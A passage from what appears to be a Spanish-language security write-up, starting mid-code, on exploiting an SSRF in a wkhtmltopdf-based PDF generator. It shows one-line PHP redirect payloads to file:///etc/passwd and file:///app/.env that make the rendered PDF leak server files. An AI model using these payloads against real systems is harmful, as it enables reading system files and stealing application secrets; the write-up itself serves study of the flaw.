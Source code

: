 ```Javascript
            if (err) {
                reject(err);
            } else {
                resolve();
            }
        });
    });
}
```

Observamos que la función _generatePdfFromUrl_ usa _wkhtmltopdf_ para convertir el contenido de la URL en un archivo PDF. Este flujo abre la puerta a una **vulnerabilidad SSRF** en la librería.

### SSRF para la lectura de archivos en wkhtmltopdf

Utilizando un servidor controlado por el atacante, podemos servir archivos en un servidor web para redirigir al visitante a ubicaciones locales en el sistema de archivos, en este caso convirtiendo el SSRF en una forma de leer archivos internos como /etc/passwd. Para hacer esto, creamos un archivo PHP con el siguiente contenido:

```php
<?php header('location:file:///etc/passwd'); ?>
```

Al pasar la URL de nuestro servidor como parámetro a la ruta /download, el PDF generado contendrá el contenido del archivo /etc/passwd del servidor que realiza la petición.

<figure markdown="span">
    ![Leyendo el /etc/passwd con el generador de PDF](../../../assets/posts/2024/12/08/etc_passwd.png)
  <figcaption>Leyendo el /etc/passwd con el generador de PDF</figcaption>
</figure>

A continuación, modificamos el archivo PHP para exfiltar el archivo .env de la aplicación:

```php
<?php header('location:file:///app/.env'); ?>
```
